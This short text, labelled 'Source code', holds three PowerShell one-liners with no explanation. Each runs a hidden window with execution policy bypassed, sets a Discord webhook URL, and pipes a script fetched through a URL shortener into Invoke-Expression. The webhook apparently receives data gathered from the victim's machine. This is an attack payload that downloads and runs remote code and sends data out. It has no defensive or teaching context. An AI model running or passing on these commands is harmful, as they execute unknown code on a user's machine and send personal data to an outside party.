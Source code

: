 powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://is.gd/bw_info_to_dc | iex



powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://t.ly/rJl5k | iex


powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://t.ly/rJl5k | iex

